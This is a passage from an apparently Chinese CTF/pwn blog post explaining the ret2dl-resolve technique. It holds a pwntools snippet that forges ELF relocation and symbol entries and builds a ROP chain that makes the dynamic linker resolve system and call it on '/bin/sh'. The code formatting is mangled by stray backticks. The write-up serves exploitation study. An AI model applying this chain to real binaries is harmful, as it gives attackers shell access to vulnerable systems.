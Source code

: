 2. 第二次调用`read`函数，此时要`send`ROP链以及所有相关的伪造数据结构

```python
`fake_Elf32_Rel ``=` `p32(STRLEN_GOT)``fake_Elf32_Rel ``+``=` `p32(FAKE_SYMTAB_IDX)` `fake_Elf32_Sym ``=` `p32(FAKE_STR_OFF)``fake_Elf32_Sym ``+``=` `p32(``0``)``fake_Elf32_Sym ``+``=` `p32(``0``)``fake_Elf32_Sym ``+``=` `chr``(``0x12``) ``+` `chr``(``0``) ``+` `p16(``0``) ``# 其它字段直接照抄IDA里面的数据就好` `strings ``=` `"system\x00/bin/sh\x00\x00"` `rop ``=` `p32(``0``) ``# pop ebp, 随便设反正不用了``rop ``+``=` `p32(DYN_RESOL_PLT) ``# resolve的PLT，就是前面说的push link_map那个位置``rop ``+``=` `p32(FAKE_REL_OFF) ``# 伪造的重定位表OFFSET``rop ``+``=` `"AAAA"` `# 返回地址，不用了随便设``rop ``+``=` `p32(BIN_SH_ADDR) ``# 参数，"/bin/sh"` `payload2 ``=` `rop ``+` `fake_Elf32_Rel ``+` `fake_Elf32_Sym ``+` `strings` `sh.send(payload2)`
```

至于offset这些东西要自己慢慢撸，反正我搞了挺久的。。。就在IDA里把地址copy出来然后慢慢算偏移就好了。。。

完整exp写的有点丑，放附件了。

PS: 其他一些大佬博客的exp我没有很看懂。。。不知道为啥要写那么长。。。我是弄懂了方法就按照自己的思路写的，不过也对就是了。。。

然后貌似有个自动得出ROP的工具叫作[roputils](https://github.com/inaz2/roputils)，这样就不用自己搞这么一串ROP了。。。不过用工具前还是要先搞懂原理的不然就成脚本小子了嘛。。。

## 伪造link_map?

貌似也可行，而且64位下`link_map+0x1c8` 好像要置0，所以可能要自己伪造`link_map`。但是`link_map`结构有点复杂，网上也没有关于这种利用方式的资料，以后有空会再研究一下。。。
